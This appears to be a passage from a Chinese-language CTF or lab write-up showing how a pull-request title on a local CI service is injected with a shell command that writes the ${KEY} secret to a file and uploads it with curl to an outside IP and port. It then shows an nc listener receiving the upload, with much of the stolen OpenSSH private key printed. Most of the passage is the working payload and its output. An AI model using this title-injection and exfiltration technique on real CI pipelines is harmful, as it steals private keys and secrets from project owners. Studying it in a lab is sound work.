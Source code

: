 

因此开始攻击。将http://localhost:3000/Cov/reportcov项目fork下来，随便改个东西后push后然后发起pull request，在tile处注入恶意代码：

```bash
`echo "${KEY}" > key && curl -v -F file=@key http://121.5.169.223:39556`
```

![image-20231107120821189](README.assets/image-20231107120821189.png)



服务器上可以收到key：

```bash
nc -lvvp 39556
Listening on [0.0.0.0] (family 0, port 39556)
Connection from 36.112.200.147 16519 received!
POST / HTTP/1.1
Host: 121.5.169.223:39556
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 2805
Content-Type: multipart/form-data; boundary=------------------------ab4b01bd9df8bad8

--------------------------ab4b01bd9df8bad8
Content-Disposition: form-data; name="file"; filename="key"
Content-Type: application/octet-stream

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzKMQY9T7R2JBDjFuxCxQWxKI9Nf39EdewMpSYfgR4AslScEzJJX0
O3lfkq1jalL4zp066bFkU21M3p42hVgXnBrcVOR7JU3FiEFDw4qfE2CcJTXFHL4obAqFiy
cp6RxsIjRIoRz8zrBI57k8CyhqZK104xt79XDkWcDnA7lctBwq9Dq9vxsK8SqXvW4cJTu7
osoyMitO3RP3x0EYocsNNnTDNBj1JIMsfmSkOu503LFZqAuqhchKm7BcnpeOYT2qKRuFqv
BowklegCZRWZNWSVI1lGhUQQ3wDgEk0dqUPzHlOhDx4hNAeT/RXttllY+lxci00EFmjRs3
XXgculpXRs3cyC+T3Itn4rQoE5AV5191mIuwufozXCiGgFhOKfOmYe8ZHCcI09pmT2xZ9m
Cpq5VharLKHR3ku4yy3NEYZrOcNvhIfSlkFCTYV5IKXr9VcS3f+KMNrBgvEF0tEqo3sy87
1bbUInjCTViMvCS8G2uFQlnvMRiW4+FNyCcSUqpBAAAFkAzpeAEM6XgBAAAAB3NzaC1yc2
EAAAGBAMyjEGPU+0diQQ4xbsQsUFsSiPTX9/RHXsDKUmH4EeALJUnBMySV9Dt5X5KtY2pS
+M6dOumxZFNtTN6eNoVYF5wa3FTkeyVNxYhBQ8OKnxNgnCU1xRy+KGwKhYsnKekcbCI0SK
Ec/M6wSOe5PAsoamStdOMbe/Vw5FnA5wO5XLQcKvQ6vb8bCvEql71uHCU7u6LKMjIrTt0T
98dBGKHLDTZ0wzQY9SSDLH5kpDrudNyxWagLqoXISpuwXJ6XjmE9qikbharwaMJJXoAmUV
mTVklSNZRoVEEN8A4BJNHalD8x5ToQ8eITQHk/0V7bZZWPpcXItNBBZo0bN114HLpaV0bN
3Mgvk9yLZ+K0KBOQFedfdZiLsLn6M1wohoBYTinzpmHvGRwnCNPaZk9sWfZgqauVYWqyyh
0d5LuMstzRGGaznDb4SH0pZBQk2FeSCl6/VXEt3/ijDawYLxBdLRKqN7MvO9W21CJ4wk1Y
jLwkvBtrhUJZ7zEYluPhTcgnElKqQQAAAAMBAAEAAAGAResRFosWr/UqNSc+qVhavENA+C
cyWQxpm4WFUGPp95rXSrPwPXfe0tNNjFght5pR2IZwMpihpr+ZnBaCmlzW9EdZMMhAKya/
byadeJpMb9p6f1w31PJD7WZK6pifAT7s02L5zdKRri0dO89WbJmKgIujfFVPrTS9UM1QIT
2cJw3Yv0myuzEKNAxRfC+6/h3CpoRfUjTp5S+FYVcki2NNSGXsrEg6uhb3hNfuJRSEaUNP
VtNlmAAvPbKscqNlymO+u1EP9W34UDRCNqGdLZxFs651a50qmmQvTAMYHCOTFUE3ChGnEI
BGLEtsOkYKlEnQg5qQIHKLJExH0a2b0fVFrGK7dcVK3kc7xLgGwvxuFvKl4DeMgCX5q85g
02Mu9Odcsio7t6Go6sXTiB3V/Idbzcp3zbO3B76AQDzhjzTtGYONPR+aDthfnJIJhyxRJg
maE9IHWIpiWe0gzjnSs4HBGqF0F6Rr/XIbjN/53wBmyMO6eVq2wAHbRu/NEgisctfhAAAA
```